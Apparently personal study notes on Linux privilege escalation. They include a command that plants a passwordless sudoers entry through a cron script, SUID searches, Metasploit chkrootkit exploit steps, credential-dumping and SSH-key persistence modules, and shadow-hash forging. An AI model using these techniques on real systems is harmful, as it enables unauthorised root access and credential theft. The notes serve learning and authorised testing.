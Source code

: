### Linux Kernel Exploits
Tool called Linux Exploit Suggester can be used. Found on github. Suggests exploits from exploit db. Get file and compile like normal and deploy. 

### Misconfigured Cron Jobs
To find where a file is being used, use grep. ex. 
```
grep -rnw /usr -e "<file path>"
```
> -r = recursive
> -w = match whole words
> -n = print the line
> -e = use the pattern provided

Method 1: find running script and edit. 
```
printf '#! /bin/bash\necho "student ALL=NOPASSWD:ALL" >> /etc/sudoers' > /usr/local/share/copy.sh
```
> this will add current users to sudoers file as soon as script runs

### Exploiting SUID Binaries
```bash
find / -type f -perm -04000 -ls 2>/dev/null
```

Another method
```bash
find / -perm /4000 -type f -exec ls -ld {} \; 2>/dev/null
```

> Indicated by s in permissions (x, h, r, s)
> Look in strings to see if there are related files
> Change that file contents (or recreate) and use SUID file to run it

![](</Images/Pasted image 20231210160935.png>)

### metasploit

`ps aux` to show running processes. Some have owner for root. 

`/usr/local/bin/chkrootkit` has vulnerable versions < 0.50
`chkrootkit -V` to see if version is less than 0.5

Exit shell and background  meterpreter. Search for chkroot kit
`exploit/unix/local/chkrootkit`
Manually configure:
set session
set path (CHKROOTKIT) if different
set LHOST to eht1 or equiv

### dumping hashes

After creating session use `linux/gather/hashdump`
Creates unshadowed password file

Other modules for gathering info post expliot
- post/multi/gather/ssh_creds
- post/multi/gather/docker_creds
- post/linux/gather/hashdump
- post/linux/gather/ecryptfs_creds
- post/linux/gather/enum_psk
- post/linux/gather/enum_xchat
- post/linux/gather/phpmyadmin_credsteal
- post/linux/gather/pptpd_chap_secrets - gets PPTP user/pass/IP info
- post/linux/manage/sshkey_persistence

check for SUID and/or sudo -l

man no passwd can escape with !

LinEnum - automatic linux enum found on github
LinPeas: file is way too big to copy and paste
[linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration/blob/master/lse.sh): this works well to tell what is available. But doesn't give actual detail. Changing level to 1 or 2 will give more information


How to find files that every user can write to files
`find / -not -type l -perm -o+w`

Generate linux hashed password for shadow file
`openssl passwd -1 -salt abc password`
